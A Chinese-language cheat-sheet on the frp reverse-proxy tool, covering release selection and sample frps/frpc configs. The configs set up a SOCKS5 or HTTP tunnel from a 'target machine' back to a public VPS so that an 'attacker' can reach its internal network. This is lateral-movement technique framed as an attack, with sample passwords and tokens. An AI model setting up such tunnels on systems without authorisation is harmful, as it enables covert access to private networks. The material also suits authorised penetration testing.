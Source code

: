 # Frp

---

## 介绍

```
支持tcp、udp、http、https、socker5
tcp、udp、socker5需要公网IP
http、https需要证书和域名
作用： 反向代理、端口转发
```

## 下载地址

```
https://github.com/fatedier/frp/releases
```

## 版本选择

```
ftp-版本-系统-cpu
---
系统：
darwin -》mac
linux  -》centos、redhat、ubuntu等
freebsd -》UNIX   
windows -》 windows
---
cpu架构：（https://blog.csdn.net/lixuande19871015/article/details/98613711）
386	X86架构
amd64	amd架构
arm	arm架构
arm64	64位arm架构  aarch64
mips	mips架构
mips64	64位mips架构
mipsle	mipsle架构
mips64le	64位mipsle架构

使用名称查看linux 架构：
arch

```


## 操作


| 对象    | IP          | 反向代理                                                     |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限) <br/>#frps.ini---------------------------<br/>[common]<br/>bind_addr=0.0.0.0<br/>bind_port = 7088<br/>#------------------------------------ |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088 <br/>[sock5-proxy]<br/>type = tcp<br/>remote_port = 3004<br/>plugin = socks5<br/>#------------------------------------ |
| 攻击者  | 192.168.2.1 | #任何协议均可连接socket5<br/>代理设置：http:// 10.10.10.1: 3004    socket5 |





| 对象    | IP          | 转发（操作）及规则文件内容                                   |
| ------- | ----------- | ------------------------------------------------------------ |
| 公网VPS | 10.10.10.1  | ./frps -c frps.ini       (chmod 755 *  #给权限)<br/>#frps.ini---------------------------<br/>[common]# 验证连接监听地址<br/>bind_addr=0.0.0.0<br/># 验证连接端口bind_port = 7088<br/># web统计后台账号<br/>dashboard_user = user1<br/># web统计后台密码<br/>dashboard_pwd = oUcOEDq3VGAxoW5Xoz51<br/># web统计后台端口dashboard_port = 7500<br/># token验证token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2<br/>#--------------------------- |
| 目标机  | 192.168.1.1 | frpc.exe -c frpc.ini<br/>#frpc.ini---------------------------<br/>[common]server_addr = 10.10.10.1<br/>server_port = 7088token = 8d262f2b-6dba-4a8d-857e-8a53d1d439e2 <br/># http代理<br/>[http_proxy]type = tcp<br/>remote_port = 6000<br/>plugin = http_proxy<br/>#配置http代理的简单认证<br/>plugin_http_user = user1<br/>plugin_http_passwd = 1qaz2wsx  <br/># ssh设置代理 或者远程桌面<br/>#[ssh]<br/>#type=tcp<br/>#local_ip = 127.0.0.1<br/>#local_port = 22<br/>#remote_port = 6000<br/>#启用加密#use_encryption = true<br/>#启用压缩#use_compression = true  <br/># web服务设置代理<br/>#[web]#type = http<br/>#local_port = 80<br/>#custom_domains = www.xxxx.com<br/>#--------------------------- |
| 攻击者  | 192.168.2.1 | 设置代理为VPS x.x.x.1:6000 进行验证用户密码即可通过代理进行访问内网得访问<br/>#cmd----------------------------------------------<br/>set http_proxy=http:// x.x.x.1:6000<br/>set http_proxy_user=user1<br/>set http_proxy_passwd=1qaz2wsx <br/>#web----------------------------------------------<br/>http:// 10.10.10.1:6000  user1 / 1qaz2wsx |

